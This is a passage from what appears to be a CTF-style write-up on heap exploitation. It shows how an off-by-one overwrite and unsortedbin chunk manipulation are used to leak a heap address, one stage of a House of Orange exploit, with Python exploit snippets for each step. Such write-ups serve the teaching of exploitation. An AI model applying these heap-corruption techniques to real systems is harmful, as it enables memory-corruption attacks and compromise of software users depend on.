 Now we also need to leak the heap address. The reason will be clear later, but since we are pursuing the House of Orange exploit, we know that we need to forge a fake filestream on the heap, and we need its address.

The strategy I use to leak the heap addressing is to coerce malloc into linking an additional chunk in the unsortedbin (remember that the remainder of `chunk_01` is already in that list).

To do so, we leverage off-by-one again, resizing `chunk_04`:

```python
# chunk_04 is right below chunk_00, so we can do our off-by-one again
edit(chunk_00, b"\x00"*0x58 + p8(0xc1))
```

The above snippet leads us to the following configuration:

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-05.png)

To replicate the same mechanism we used before to get a chunk in the unsortedbin, we need to fix the flags for `chunk_03`. In fact, at this point, `chunk_03` thinks that the previous chunk is free, and that would lead to a double free malloc error when we release `chunk_04`.

To avoid that, we simply leverage once again the off-by-one bug, carefully rewriting the unsortedbin head address in the `fd` and `bk` pointers, to avoid memory corruption, as follows:

```python
# chunk_03 thinks that the previous chunk is free. To avoid memory corruption
# we need to leverage off-by-one and change the flags. In the process we need
# to re-write the fd and bk pointers we just leaked.
edit(chunk_02, p64(unsortedbin) + p64(unsortedbin) + b"\x02"*0x48 + p8(0x61))
```

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-06.png)

Freeing `chunk_04` now produces the desired effect:

```python
# Add another 0xc0 chunk in unsortedbin
# This will set chunk_02's bk to the address of chunk_04
free(chunk_04)
```

The following picture shows the configuration of our heap after freeing `chunk_04`:

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-07.png)

We now have 2 chunks in the unsortedbin. The `bk` pointer we can read from `chunk_02` (aka `unsortedbin[1]`) holds the address of `unsortedbin[0]` which is on the heap and for which we know the offset from the beginning of the heap.

Calculating the heap base address is now trivial:

```python
# This time chunk_02 also has the heap address
leak = read(chunk_02)
# Leak the address of chunk_04
chunk_04_address = u64(leak[8:16])
heap = chunk_04_address - 0x60
print(f"Leaked heap address:           0x{heap:02x}")
```
